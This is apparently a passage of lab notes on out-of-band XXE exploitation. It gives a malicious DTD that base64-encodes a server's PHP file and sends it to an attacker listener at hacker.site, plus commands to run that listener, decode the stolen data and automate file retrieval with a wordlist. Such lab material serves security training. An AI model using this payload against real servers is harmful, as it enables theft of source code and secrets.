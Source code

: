 File:
evil_oob.dtd
```xml
<!ENTITY % resource SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/7/.letmepass.php"> 
<!ENTITY % LoadOOBEnt "<!ENTITY &#x25; OOB SYSTEM
'http://hacker.site:2108/?p=%resource;'>">
```

> [NOTE] http://hacker.site:2108/xml?p=%resource
> is the path where > the xxeserve shell is listening; you can change it with what you want.

- Run the xxeserve script
```ruby
ruby xxeserve.rb
```

[NOTE] I added the following lines in order to customize port and host

```bash
set :bind, 'hacker.site'
set :port, 2108
```

Decode the .letmepass
```
file
```

Decode what the shell has received! Check the files folder
```bash
cat files/{IP.TIME} | base64 -d
```

- Clear all in files folder

b. Automate the retrieving folder

- Download a list of common PHP file names.
- This is good: Filenames_PHP_Common.wordlist

Make the file extractor script:
```
See file_extractor.sh
```

> [Note] there are some hardcoded paths within the script, you should adapt them respect to your configuration.

Make a proxy script:
```
See getOOB.php
```

> This script is useful, as it can echo custom XML payloads by just passing to it a GET request to resource to extract.


## Lab 3
